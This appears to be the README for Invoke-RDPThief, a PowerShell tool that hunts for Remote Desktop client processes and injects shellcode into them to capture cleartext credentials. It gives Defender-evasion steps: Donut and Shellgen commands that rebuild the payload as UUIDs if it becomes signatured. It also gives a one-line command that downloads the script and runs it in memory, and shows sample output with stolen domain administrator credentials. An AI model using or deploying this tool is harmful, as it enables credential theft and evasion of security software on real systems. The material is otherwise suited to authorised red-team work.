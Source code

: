 # Invoke-RDPThief

This PowerShell script runs on a loop hunting for mstsc.exe processes. When any are found, the script will perform process injection on the target process and inject RDPthief into the process in order to capture cleartext credentials.

RDPThief.dll was converted to shellcode with Donut, then converted to UUIDs with Shellgen to hide the shellcode in plainsight within the script. The UUIDs are then converted back into shellcode at runtime and injected whilst staying completley in memory.

Works against Defender as of 01/10/2024

## Payload creation
The payload in the script is ready to go however, the steps below can be followed if the payload is signatured in the future.

Convert RDPThief.dll into shellcode with Donut.
```
.\donut.exe -f:1 --input:C:\RdpThief.dll -e 3 -b 1 -x 3 -k 2
```

Convert to UUID with Shellgen
```powershell
Shellgen -RawFile "C:\loader.bin" -OutputFormat UUID
```
Take the output and place it into the $UUIDs array in Invoke-RDPThief.ps1

RDPThief: https://github.com/0x09AL/RdpThief

Donut: https://github.com/TheWover/donut

Shellgen: https://github.com/Leo4j/ShellGen

## Usage
```powershell
# Load into memory and execute
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/Invoke-RDPThief/refs/heads/main/Invoke-RDPThief.ps1")

```
## Output
```
[*] Hunting for mstsc...

[+] Successfully injected into process 5496

[+] Extracted Credentials

Server   : DC01.Security.local
Username : SECURITY\administrator
Password : Password123
```

